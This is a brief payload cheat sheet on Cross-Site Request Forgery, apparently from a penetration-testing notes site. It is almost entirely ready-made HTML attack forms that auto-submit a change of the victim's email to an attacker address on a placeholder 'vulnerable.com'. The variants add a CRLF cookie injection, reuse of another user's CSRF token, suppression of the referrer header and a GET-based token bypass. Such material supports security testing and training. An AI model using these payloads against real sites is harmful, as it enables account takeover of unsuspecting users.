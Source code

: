 ```yaml
---
title: Cross-Site Request Forgery (CSRF)
desc: 
tags: [Burp Suite, Cross, CSRF, Site, Web]
alts: []
render_with_liquid: false
---
```


## 1. POST Request

The payloads need to be entered in the post form like comments, profile in the target web page.  
They force to update the victim account's email address to your email address.

1. **Basic**

    ```html
    <form method="POST" action="https://vulnerable.com/change-email">
        <input type="hidden" name="email" value="attacker@example.com">
    </form>
    <script>
        document.forms[0].submit();
    </script>
    ```

2. **Cookie Injection**

    ```html
    <form method="POST" action="https://vulnerable.com/change-email">
        <input type="hidden" name="email" value="attacker@example.com">
    </form>
    <img src="https://vulnerable.com/?search=attack%0d%0aSet-Cookie:%20csrf=fake" onerror="document.forms[0].submit();">
    ```

3. **Use the Other CSRF Token**

    ```html
    <form method="POST" action="https://vulnerable.com/change-email">
        <input type="hidden" name="email" value="attacker@example.com">
        <input type="hidden" name="csrf" value="PqORuKZMr9zIJxpZC2cA8BgHuQGVkW8h">
    </form>
    <script>
        document.forms[0].submit();
    </script>
    ```

4. **Referrer Validation**

    ```html
    <meta name="referrer" content="no-referrer">

    <form method="POST" action="https://vulnerable.com/change-email">
        <input type="hidden" name="email" value="attacker@example.com">
    </form>
    <script>
        // For referrer validation....
        history.pushState("", "", "/?vulnerable.com");
        
        document.forms[0].submit();
    </script>
    ```

<br />

## 2. GET Request (Bypass CSRF Token)

```html
<!-- ex. https://attacker.com/exploit -->

<form method="GET" action="https://vulnerable.com/change-email">
    <input type="hidden" name="email" value="attacker@example.com">
</form>
<script>
    document.forms[0].submit();
</script>
```
